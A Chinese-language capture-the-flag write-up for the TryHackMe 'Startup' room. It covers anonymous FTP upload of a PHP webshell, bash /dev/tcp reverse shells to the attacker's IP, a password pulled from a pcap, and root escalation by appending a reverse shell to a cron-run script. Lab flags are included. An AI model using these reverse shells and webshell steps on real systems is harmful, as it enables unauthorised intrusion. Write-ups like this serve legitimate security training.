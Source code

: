 # Startup Writeup
> URL : https://tryhackme.com/room/startup
Target IP : 10.10.37.216

## Scan
- 老規矩 nmap 起手式
    - `nmap -A 10.10.37.216`
    - ![](https://i.imgur.com/gD14ZAk.png)
    - 有開
        - 21 FTP
            - nmap 說 Anonymous allow
        - 22 SSH
        - 80 網頁
- 掃網頁路徑
    - `python3 dirsearch.py -u http://10.10.37.216/ -e all`
    - 可能有用的路徑
        - `http://10.10.37.216/files/`
            - 裡面有一段話，跟 meme
            - ![](https://i.imgur.com/sQxCqzk.png)

## FTP
- `ftp 10.10.37.216`
    - 帳號 : `Anonymous`
    - 密碼 : 空白
    - ![](https://i.imgur.com/SyLMZqo.png)
    - 發現路徑就是網頁伺服器的files
- 嘗試上傳檔案
    - 根目錄(網頁的 `files`)
        - ![](https://i.imgur.com/1bxN7s9.png)
        - 沒有權限
    - ftp 目錄
        - ![](https://i.imgur.com/uQql93e.png)
        - 有權限ㄌ!
## Shell
- 訪問 `http://10.10.37.216/files/ftp/b374k.php`
    - 使用預設密碼
- 轉用 Reverse Shell
    - 本地端準備 `nc -vlk 7877`
    - 在 Terminal 輸入 `bash -c 'bash -i >& /dev/tcp/10.14.7.198/7877 0>&1'`
- 切換為交互式 shell
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
## 亂逛系統
- 根目錄底下
    - `recipe.txt`
        - `Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.`
        - 問題 : What is the secret spicy soup recipe? 
        - 答案 : `love`
    - incidents 資料夾
        - 裡面有 suspicious.pcapng
        - 透過 webshell 把他載下來備用
- 使用者相關
    - `/home` 底下有 `lennie` 使用者
## 解析 pcap
- 觀察第 45 個封包 follow TCP stream
    - 可以看到 webshell 的紀錄
    - ![](https://i.imgur.com/QWan7Ig.png)
    - 其中輸入了密碼 `c4ntg3t3n0ughsp1c3`
## 嘗試登入使用者
- 回到 reverse shell 輸入 `su lennie` 並搭配上述密碼
    - ![](https://i.imgur.com/VIqV6QA.png)
    - 登入成功!! 
- 取得 user.txt
    - ![](https://i.imgur.com/GjOqlxS.png)
    - `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`
## 研究提權
- 在使用者資料夾裡找到 scripts 資料夾
    - ![](https://i.imgur.com/eKvbNwQ.png)
    - 兩個檔案權限都是 root，但我們可以進行讀取
    - `planner.sh`
        - ```
          #!/bin/bash
          echo $LIST > /home/lennie/scripts/startup_list.txt
          /etc/print.sh
          ```
        - 看起來會把環境變數 $LIST 給寫到 startup_list.txt
        - 接著呼叫 `/etc/print.sh`
    - 觀察 `/etc/print.sh` 可以發現我們有 write 的權限
        - `-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh`
    - 在 `print.sh` 下面加上一行 reverse shell
        - `echo "bash -c 'bash -i >& /dev/tcp/10.14.7.198/8778 0>&1'" >> /etc/print.sh`
        - 當然這邊的 port 要跟目前的不同，然後本地開 `nc -vlk 8778` 來聽
        - 然後連指令都還沒執行，就莫名地拿到 root ㄌ ?__?
        - ![](https://i.imgur.com/6BoTO1i.png)
        - `THM{f963aaa6a430f210222158ae15c3d76d}`
        
## 為什麼誤打誤撞拿到 root ㄌ，還是要來研究一下
- 跑 Linpeas
    - 準備 `linpeas.sh` 在本地
        - `python3 -m http.server`
    - 回到使用者端
        - `wget 10.14.7.198:8000/linpeas.sh`
        - `bash linpeas.sh | tee meow.txt`
            - 看不出什麼結果
- 使用 Pspy
    - 用上述同樣方法載到被駭機觀察
    - ![](https://i.imgur.com/elNkToE.png)
    - 發現每分鐘都會用 UID=0 執行一次 `planner.sh`
    - 所以應該是一個 root 的 cron job
- 進入root後
    - 輸入 `crontab -l`
        - ![](https://i.imgur.com/AEcjHhe.png)
        - 就能看到這條 cron job 了
    - 我還是覺得這一段有一點點通靈 QQ
